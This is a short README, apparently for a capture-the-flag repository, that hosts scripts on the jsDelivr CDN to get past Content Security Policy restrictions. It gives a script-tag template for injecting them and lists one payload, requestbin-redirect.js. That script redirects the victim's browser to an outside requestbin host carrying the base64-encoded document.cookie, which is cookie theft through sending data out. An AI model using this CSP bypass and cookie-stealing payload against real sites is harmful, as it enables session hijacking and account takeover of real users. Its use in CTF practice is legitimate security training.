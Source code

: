 # ctf-jsdelivr-repo
Repository for delivering script files through jsdelivr in order to bypass CSP restrictions

To run a script, use the following html element:  
`<script src='https://cdn.jsdelivr.net/gh/Victor4X/ctf-jsdelivr-repo/{script_file}'>`

## Scripts:
`requestbin-redirect.js` - Redirect the window to `http://requestbin.victorroer.com?{btoa(document.cookie)}` (only useful for me)
